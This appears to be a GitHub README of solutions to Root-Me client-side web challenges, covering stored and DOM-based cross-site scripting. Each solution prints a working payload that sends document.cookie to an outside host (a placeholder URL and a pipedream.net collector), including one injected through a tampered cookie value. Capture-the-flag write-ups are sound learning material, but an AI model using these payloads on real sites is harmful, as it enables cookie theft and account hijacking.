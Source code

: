 # Rootme-App-Client
App Client Challenges Summary

### XSS- Stored 1
Post a message with content is the following:
`<script>fetch("URL?c="+document.cookie)</script>
`
### XSS - Stored 2
Post a random message, then Ctrl + U to view source code. 

There are 2 style definitions : `invite` & `admin`.

Besides, when open cookies manage, we see a value of `status` is `invite`. 

Change this value into `admin` and try posting a message, this change will affect to tag `i` after message title.

So we're going to exploit this.

Change `status` cookie into `"><script>fetch("URL?c="+document.cookie)</script>` and post a message

### XSS DOM Based - Introduction

Submit a random number, we will see url has a param `number`. 

Ctrl + U to view source code. `number` variable get value from URL param.

Exploit this.

Submit number `'; fetch("https://eo944ovuf06595y.m.pipedream.net?c="+document.cookie)//`. 

This will break `''` of `number` variable, add `fetch` into script.

Submit URL in `Contact` page with param `RootmeURL?number='; fetch("https://eo944ovuf06595y.m.pipedream.net?c="+document.cookie)//`

